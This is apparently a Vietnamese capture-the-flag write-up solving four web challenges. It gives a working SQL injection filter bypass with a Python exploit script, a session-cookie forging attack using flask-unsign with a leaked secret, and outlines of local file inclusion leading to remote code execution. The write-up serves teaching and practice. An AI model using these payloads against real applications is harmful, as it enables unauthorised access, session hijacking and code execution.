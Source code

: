 # SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu `\` để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass `"`, `'` vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```

![](2022-05-16-15-28-42.png)

Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`



